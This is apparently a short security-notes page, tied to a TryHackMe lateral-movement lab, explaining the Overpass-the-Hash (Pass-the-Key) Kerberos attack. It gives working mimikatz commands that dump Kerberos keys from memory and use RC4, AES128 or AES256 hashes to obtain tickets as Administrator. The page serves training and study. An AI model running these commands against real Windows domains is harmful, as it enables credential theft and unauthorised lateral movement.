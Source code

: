 Similar to Pass the Hash attacks, but targeting Kerberos, for more see the [[Attacking-Kerberos]] article. When users request TGTs, they send a timestamp encrypted with an enycryption key derived from their password, either with DES(legacy, disable by default in modern Windows), RC4, AES128, AES256 depending on Windows Version and Kerberos configuration. We can obtain the Kerberos encryption keys from memory by using mimikatz(see [[Mimikatz-Cheatsheet]] and then **ask the KDC for a TGT without requiring the actual password**:
```powershell
# mimikatz
privilege::debug
sekurlsa::ekeys
``` 

Importantly RC4 is equal to the NTLM hash of the user!

RC4 hash:
```powershell
# mimikatz  
sekurlsa::pth /user:Administrator /domain:$domain /rc4::$RC4-hash /run:"command goes here"
```

AES128 hash
```powershell
# mimikatz 
sekurlsa::pth /user:Administrator /domain:$domain /aes128::$AES128-hash /run:"command goes here"
```

AES256 hash:
```powershell
# mimikatz 
sekurlsa::pth /user:Administrator /domain:$domain /aes256:$AES256-hash /run:"command here goes"
```

## References

[THM Lateral movement and Pivoting room](https://tryhackme.com/room/lateralmovementandpivoting)